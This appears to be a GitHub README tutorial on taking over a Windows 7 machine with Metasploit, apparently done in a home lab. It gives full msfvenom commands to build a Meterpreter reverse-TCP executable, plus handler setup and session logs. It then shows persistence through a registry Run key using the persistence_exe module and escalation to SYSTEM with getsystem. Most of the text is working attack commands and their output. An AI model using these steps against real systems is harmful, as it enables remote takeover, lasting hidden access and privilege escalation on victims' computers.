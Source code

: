 # Windows7
In this I will explain how to bypass Windows 7 ,make the attack persistence also UAC bypass on the target machine.  We will be doing this with the help of payload created in kali linux.

Steps to create payload in kali linux: 

1. In kali terminal 

┌──(bhavin㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp  lhost=172.20.10.12 lport=1234 -f exe      -o bhavin.exe 
                |                             |        |          |      |    |   |      |   |          |   
Syntax:-        | Type of palyoad             |        | Eth0 IP  |      |port|   |format|   | Filename |

IF YOU HAVE A 64 BIT windows 7 machine then the above command will be replaced by


┌──(bhavin㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp  lhost=172.20.10.12 lport=1234 -f exe      -o bhavin.exe 
                |                             |        |          |      |    |   |      |   |          |   
Syntax:-        | Type of palyoad             |        | Eth0 IP  |      |port|   |format|   | Filename |


2. Payload will be created successfully if everything is correct.

3. Transfer the bhavin.exe file to the target machine.

4. In kali open msfconsole

┌──(bhavin㉿kali)-[~]
└─$ msfconsole                                                                                          

5. use a epxloit 

msf6 > use exploit/multi/handler 

6. set exact same payload as used while creation of payload executable file.

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

7. use same lhost and lport 

msf6 exploit(multi/handler) > set lhost 172.20.10.12
lhost => 172.20.10.12

msf6 exploit(multi/handler) > set lport 1234
lport => 1234

ALSO disable ExitOnSession 

msf6 exploit(multi/handler) > set ExitOnSession false 
ExitOnSession => false

8. exploit

msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 172.20.10.12:1234......

9. Double click the bhavin.exe file in Windows 7  

10. In kali

msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 172.20.10.12:1234 
[*] Sending stage (175686 bytes) to 172.20.10.4 {THIS IS THE TARGET'S IP}
[*] Meterpreter session 1 opened (172.20.10.12:1234 -> 172.20.10.4:1062) at 2023-01-31 18:55:02 +0530

meterpreter > 

11. To make persistence 

meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search persistence

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank       Check  Description
   -   ----                                                  ---------------  ----       -----  -----------
   0   exploit/linux/local/apt_package_manager_persistence   1999-03-09       excellent  No     APT Package Manager Persistence                                                                                                                             
   1   exploit/windows/local/ps_wmi_exec                     2012-08-19       excellent  No     Authenticated WMI Exec via Powershell
   2   exploit/linux/local/autostart_persistence             2006-02-13       excellent  No     Autostart Desktop Item Persistence                                                                                                                          
   3   exploit/linux/local/bash_profile_persistence          1989-06-08       normal     No     Bash Profile Persistence
   4   exploit/linux/local/cron_persistence                  1979-07-01       excellent  No     Cron Persistence
   5   exploit/osx/local/persistence                         2012-04-01       excellent  No     Mac OS X Persistent Payload Installer
   6   exploit/osx/local/sudo_password_bypass                2013-02-28       normal     Yes    Mac OS X Sudo Password Bypass
   7   exploit/windows/local/vss_persistence                 2011-10-21       excellent  No     Persistent Payload in Windows Volume Shadow Copy
   8   auxiliary/server/regsvr32_command_delivery_server                      normal     No     Regsvr32.exe (.sct) Command Delivery Server
   9   post/linux/manage/sshkey_persistence                                   excellent  No     SSH Key Persistence
   10  post/windows/manage/sshkey_persistence                                 good       No     SSH Key Persistence
   11  exploit/linux/local/service_persistence               1983-01-01       excellent  No     Service Persistence
   12  exploit/windows/local/wmi_persistence                 2017-06-06       normal     No     WMI Event Subscription Persistence                                                                                                                          
   13  post/windows/gather/enum_ad_managedby_groups                           normal     No     Windows Gather Active Directory Managed Groups
   14  post/windows/manage/persistence_exe                                    normal     No     Windows Manage Persistent EXE Payload Installer
   15  exploit/windows/local/s4u_persistence                 2013-01-02       excellent  No     Windows Manage User Level Persistent Payload Installer
   16  exploit/windows/local/persistence                     2011-10-19       excellent  No     Windows Persistent Registry Startup Payload Installer
   17  exploit/windows/local/persistence_service             2018-10-20       excellent  No     Windows Persistent Service Installer
   18  exploit/windows/local/registry_persistence            2015-07-01       excellent  Yes    Windows Registry Only Persistence                                                                                                                           
   19  exploit/windows/local/persistence_image_exec_options  2008-06-28       excellent  No     Windows Silent Process Exit Persistence                                                                                                                     
   20  exploit/linux/local/yum_package_manager_persistence   2003-12-17       excellent  No     Yum Package Manager Persistence                                                                                                                             
   21  exploit/unix/local/at_persistence                     1997-01-01       excellent  Yes    at(1) Persistence
   22  exploit/linux/local/rc_local_persistence              1980-10-01       excellent  No     rc.local Persistence


Interact with a module by name or index. For example info 22, use 22 or use exploit/linux/local/rc_local_persistence

msf6 exploit(multi/handler) > use 14

12. set the options 

msf6 post(windows/manage/persistence_exe) > set REXEPATH bhavin.exe
REXEPATH => bhavin.exe
msf6 post(windows/manage/persistence_exe) > set session 1
session => 1
msf6 post(windows/manage/persistence_exe) > 

13. 

msf6 post(windows/manage/persistence_exe) > run 

[*] Running module against WIN-12UN3SA48N5
[*] Reading Payload from file /home/bhavin/Desktop/bhavin1.exe
[+] Persistent Script written to C:\Users\91976\AppData\Local\Temp\default.exe
[*] Executing script C:\Users\91976\AppData\Local\Temp\default.exe
[*] Sending stage (175686 bytes) to 172.20.10.4
[+] Agent executed with PID 3688
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\ZhgRSHZYasjQFUh
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\ZhgRSHZYasjQFUh
[*] Cleanup Meterpreter RC File: /home/bhavin/.msf4/logs/persistence/WIN-12UN3SA48N5_20230131.2318/WIN-12UN3SA48N5_20230131.2318.rc
[*] Post module execution completed
msf6 post(windows/manage/persistence_exe) > [*] Meterpreter session 2 opened (172.20.10.12:1234 -> 172.20.10.4:49186) at 2023-01-31 19:23:19 +0530


14. UAC bypass 

msf6 post(windows/manage/persistence_exe) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid 
Server username: WIN-12UN3SA48N5\91976
meterpreter > getsystem 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 


